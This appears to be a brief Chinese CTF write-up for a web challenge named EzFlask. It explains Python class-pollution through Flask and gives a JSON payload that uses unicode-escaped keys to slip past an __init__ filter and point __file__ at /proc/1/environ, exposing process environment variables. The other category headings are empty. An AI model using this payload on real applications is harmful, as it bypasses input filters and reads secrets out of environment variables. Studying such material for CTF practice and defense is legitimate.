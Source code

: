 # web
### EzFlask
#原型链污染 
python[原型链污染](https://tttang.com/archive/1876/#toc__10),但是过滤了__init__

---
使用unicode编码,污染__FILE__
*payload*
```python
payload:{"username":"123","password":"123","\u0000\u005f\u0000\u005f\u0000\u0069\u0000\u006e\u0000\u0069\u0000\u0074\u0000\u005f\u0000\u005f":{"__globals__": {"__file__":"/proc/1/environ"}}}
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-22   18:15
